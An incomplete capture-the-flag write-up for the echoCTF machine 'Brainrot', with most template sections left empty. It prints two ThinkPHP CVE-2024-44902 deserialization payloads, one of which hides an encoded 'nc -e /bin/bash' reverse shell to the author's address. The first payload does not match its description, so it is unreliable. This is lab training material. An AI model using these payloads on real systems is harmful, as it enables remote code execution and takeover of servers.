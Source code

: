 ```yaml
---
description: >-
  Brainrot echoCTF Machine
title: Brainrot (Intermediate)                # Add title here
date: 2025-01-26 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Destroyercms.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.38
```

### Content

-   
- 

### Reconnaissance

Initial reconnaissance for TCP ports
```bash

```
Services and Versions running:
```bash

```

### Exploitation

Only HTTP port open, with the following number, which seems to be a version:

![](/assets/img/Pasted-image-20250126223838.png)

Then we have enough information to lookup for the name of the technology running on this port, and the only perfect match is ThinkPHP

![](/assets/img/Pasted-image-20250126223454.png)

While investigating, I found a vulnerability CVE-2024-44902 on ThinkPHP version 8.0.4:

![](/assets/img/Pasted-image-20250126224019.png)

The payload is an image so I have to extract the data from it, the OS command within the payload is `whoami`:
```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22cat%20%2Fetc%2Fpasswd%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
```

And then the payload retrieves the information as follows:

![](/assets/img/Pasted-image-20250126230927.png)

Now the interesting part here, is that you need to provide the length of the payload you want to execute (number 6 for whoami), prior to sent the payload:

![](/assets/img/Pasted-image-20250126234525.png)

So in order to get a reverse shell, we get the length of the string and then change it by the 6 instead:

![](/assets/img/Pasted-image-20250126234859.png)

This is the payload I use:

```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A32%3A%22%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%30%2e%31%30%2e%35%2e%31%32%32%20%31%32%33%34%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
```

### Privilege Escalation
There is a binary that can be executed as Sudo without credentials:
![](/assets/img/Pasted-image-20250126235201.png)

The content of such binary is this:
![](/assets/img/Pasted-image-20250126235216.png)

There is a Prototype Pollution vulnerability on `@bit/loader`:

![](/assets/img/Pasted-image-20250126235402.png)



### Post Exploitation

### Credentials

### Notes

-   Chisel have different configurations, this time we use a Forward SOCKS Proxy, which is a bind shell, that is not neccessarily the easiest way to forward the remote port, but is a new way to consider in case that a reverse shell is not possible.
-   Always look for exploits, analyze them and check if something can be useful to exploit the machine.
-   Chisel has some

### References




